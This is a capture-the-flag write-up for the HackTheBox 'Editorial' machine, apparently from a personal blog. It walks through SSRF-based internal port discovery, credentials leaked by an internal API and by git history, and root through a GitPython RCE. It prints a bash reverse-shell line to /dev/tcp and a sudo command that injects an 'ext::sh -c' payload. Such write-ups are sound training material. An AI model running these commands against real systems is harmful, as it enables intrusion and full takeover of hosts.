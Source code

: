 ```yaml
---
title: "Editorial - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Editorial
![](https://kar0nx.github.io/assets/images/writeup/a466db5ce4f7aaea98f588d1cb71a0aa.png)
## Reconnaissance

IP: 10.10.11.20
## NMAP

```
nmap -T4 -p- -A 10.10.11.20
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-03 07:23 UTC
Nmap scan report for 10.10.11.20
Host is up (0.031s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   30.59 ms 10.10.14.1
2   30.67 ms 10.10.11.20

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.55 seconds
```

## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903092512.png)

3 users

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903092548.png)

on /about page I found email with different domain `submissions@tiempoarriba.htb`

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903092800.png)

and on /upload we have upload page asking for url, first taught is ssrf 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903092913.png)

checking for response we target our machine

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903103723.png)

and we got request, so on lets check for open localports on the box. Simply copy request, save and I like to use ffuf for fast port scan.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903104317.png)

```
ffuf -request request -request-proto http -w <(seq 1 65535) -fs 61
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903104844.png)

port 5000 with different response, let's check it.
Tried to open in browser but didn't work, so CURL this.
JS stuff so we can add |jq for better look

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903105142.png)

```
curl http://editorial.htb/static/uploads/e7ddc8a2-b66d-4fd4-8d4e-d1efd7df5113 |jq
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903105241.png)

Tried all endpoints but only /api/latest/metadata/messages/authors works, and we can see message with username and password.

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903105348.png)

dev dev080217_devAPI!@
Great now we can connect via SSH

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903105535.png)

## Privilege Escalation

In home folder we see apps folder and inside .git folder so start by enumerating git 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903105736.png)

checking all logs I found downgrading prod to dev, which contains prod password 080217_Producti0n_2023!@

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903110703.png)

Login vi ssh and searching for quick wins

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903110844.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903111522.png)

searching google I found RCE exploit in python git repo
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

It works so let's make reverse shell srcipt 

```
#!/bin/bash  
bash -i >& /dev/tcp/10.10.14.8/4444 0>&1
```

and execute it with sudo permission

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/es.sh'
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250903113454.png)